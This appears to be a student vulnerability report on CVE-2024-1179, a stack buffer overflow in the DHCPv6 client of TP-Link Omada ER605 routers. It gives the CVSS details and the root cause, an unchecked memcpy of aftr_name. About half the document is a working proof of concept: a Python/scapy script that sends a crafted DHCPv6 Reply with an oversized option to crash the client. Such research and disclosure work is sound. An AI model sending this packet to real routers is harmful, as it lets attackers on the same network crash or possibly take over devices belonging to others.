 # QuarksLab Assignment
CVE-2024-1179 Report

# Summary:
CVE-2024-1179 (Stack-based Buffer Overflow) allows attackers to execute arbitrary code on affected installations of TP-Link Omada ER605 routers. Authentication is not required to exploit this vulnerability.The specific flaw exists within the handling of DHCP options.

# Common Vulnerability Scoring System:
- CVSS Rating: High
- CVSS Score: 7.5
- CVSS Vector: CVSS:3.0/AV:A/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

# Affected Products:
TP-Link Omada ER605 | DHCPv6

# Root Cause:
The vulnerability in the DHCPv6 client stems from insufficient validation of incoming data length before using memcpy to copy it into a fixed-size buffer. Specifically, when handling aftr_name, the code fails to ensure that the length (tlen) does not exceed the buffer size.
1. **Insufficient Size Checks:** The code does not properly validate whether the length of the data to be copied (tlen) fits within the allocated buffer space. This can lead to a buffer overflow if tlen is larger than the buffer.
2. **Data Manipulation Risks:** The way tlen is derived and manipulated can allow an attacker to control the size of the data being copied, potentially leading to unpredictable behavior and memory corruption.

**Vulnerable Code:**
![Alt text](https://raw.githubusercontent.com/MohamedNourTN/QuarksLabTest/refs/heads/main/vulncode.png)


# PoC:
1- **Simulate and build a network**

2- **Change <0 to >=0**
From: 
if ( setsockopt(sock, 0xFFFF, 512, &v41, 4) < 0 )
To:
if ( setsockopt(sock, 0xFFFF, 512, &v41, 4) >= 0 )

3- **Crashing memcpy by sending DHCPv6 Reply Message**
```python
import socket
from pwn import *
import binascii
from threading import Thread
from scapy.all import *
from scapy.layers.inet6 import IPv6, UDP
from scapy.layers.dhcp6 import DHCP6_Reply, DHCP6OptServerId, DHCP6OptClientId

context(os='linux', arch='mips', log_level='debug')

li = lambda x: print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x: print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')
lg = lambda x: print('\033[32m' + str(x) + '\033[0m')

ip = '192.168.10.200'
port = 546

def send_dhcp6_reply_and_listen(interface, src_ipv6, dst_ipv6, src_mac, dst_mac, transaction_id):
    #Construct the Ethernet layer
    ether_layer = Ether(src=src_mac, dst=dst_mac)
    li(ether_layer)

    #Construct the IPv6 layer
    ipv6_layer = IPv6(src=src_ipv6, dst=dst_ipv6)
    li(ipv6_layer)

    #Construct the UDP layer
    udp_layer = UDP(sport=547, dport=546)  #Note the port number, the server is 547, the client is 546
    li(udp_layer)

    #Construct the DHCPv6 REPLY message
    dhcp6_reply = DHCP6_Reply(trid=transaction_id)
    li(dhcp6_reply)

    #Construct the Server ID option
    server_id = DHCP6OptServerId(duid=DUID_LLT(hwtype=1, lladdr=src_mac))
    li(server_id)

    #Construct the Client ID option
    client_id = DHCP6OptClientId(duid=DUID_LLT(hwtype=1, lladdr=dst_mac))
    li(client_id)

    p1 = b'\x00\x40\x03\x00'
    p2 = (b'\xff' + b'a' * 0xff) * 3
    li(hex(len(p2)))
    p1 += p2

    #Combine all layers
    packet = ether_layer / ipv6_layer / udp_layer / dhcp6_reply / p1
    li(bytes(packet))

    #Send data packet
    sendp(packet)
    print("DHCPv6 Reply message has been sent, waiting for response...")

    #Set up a snoop filter to capture DHCPv6 Solicit or Request messages as responses
    def filter_reply(pkt):
        return DHCP6_Reply in pkt and pkt[DHCP6_Reply].trid == transaction_id

    #Listen for responses on the network for 5 seconds
    response = sniff(iface=interface, filter="udp and port 546", prn=lambda x: x.show(), 
                     lfilter=filter_reply, timeout=5, count=1)

    #Determine whether a response is received
    if response:
        print("Successfully received DHCPv6 response.")
    else:
        print("No DHCPv6 response received.")

interface_name = "br0"  #Network interface name in Linux 
source_ipv6 = "fe80::21c:42ff:fee0:61cf"  #Source IPv6 address
destination_ipv6 = "fe80::216:3eff:fe00:1"  #Destination IPv6 address (the dhcp6c client IPv6 address in the virtual machine)
source_mac = "00:0c:29:b2:c1:98"  #Source MAC address
destination_mac = "00:16:3E:00:00:01"  #Destination MAC address (MAC address of the network interface in the virtual machine)
transaction_id = 0x25d6bd  #Transaction ID
getAftrName = "a"

#Send DHCPv6 ADVERTISE message
send_dhcp6_reply_and_listen(interface_name, source_ipv6, destination_ipv6, source_mac, destination_mac, transaction_id)

